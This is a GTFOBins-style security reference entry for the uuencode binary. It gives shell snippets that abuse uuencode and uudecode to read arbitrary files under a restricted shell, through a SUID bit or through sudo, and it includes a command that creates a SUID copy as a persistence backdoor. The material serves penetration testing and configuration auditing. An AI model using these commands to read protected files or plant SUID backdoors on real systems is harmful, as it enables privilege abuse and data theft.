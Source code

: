 # GTFOBin: uuencode

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
uuencode "$LFILE" /dev/stdout | uudecode
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which uuencode) .

LFILE=file_to_read
uuencode "$LFILE" /dev/stdout | uudecode
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo uuencode "$LFILE" /dev/stdout | uudecode
```